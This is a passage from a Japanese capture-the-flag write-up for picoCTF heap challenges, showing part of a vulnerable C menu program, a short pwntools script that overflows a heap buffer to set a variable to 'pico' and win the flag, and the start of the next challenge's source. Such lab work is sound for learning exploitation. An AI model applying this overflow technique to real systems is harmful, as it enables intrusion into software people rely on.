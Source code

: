 ```c
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
heap0とほとんど同じだが、フラグを得るための条件が`safe_var`の値を`"pico"`に変更するというものに変わっている。よってexploitは以下のようになる。
```python
#!/usr/bin/env python
import pwn


def connect():
    return pwn.process("./chall")


io = connect()
io.sendline(b"2")
payload = b""
payload += b"A" * 32
payload += b"pico"
io.sendline(payload)
io.sendline(b"4")
io.recvuntil(b"YOU WIN\n")
print(io.recvline())
```
## heap2
ソースコードが渡された。
```c
include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
```